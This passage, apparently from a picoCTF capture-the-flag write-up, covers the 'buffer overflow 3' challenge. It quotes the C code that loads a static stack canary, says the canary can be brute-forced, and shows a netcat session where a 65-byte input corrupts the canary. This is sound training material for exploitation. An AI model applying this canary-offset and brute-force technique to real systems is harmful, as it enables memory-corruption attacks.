 ## buffer overflow 3

![](Images/Q-buffer-overflow-3.png)

From the source code, it shows that the canary is static. This means that we can bruteforce it.
```c
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}
```

First, we need to find the offset to reach the canary. Allocate a large enough buffer for the payload. I realise that after an offset of 64 bytes, we reached the canary.

```
>> nc saturn.picoctf.net 63900
How Many Bytes will You Write Into the Buffer?
> 100
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
***** Stack Smashing Detected ***** : Canary Value Corrupt!
```
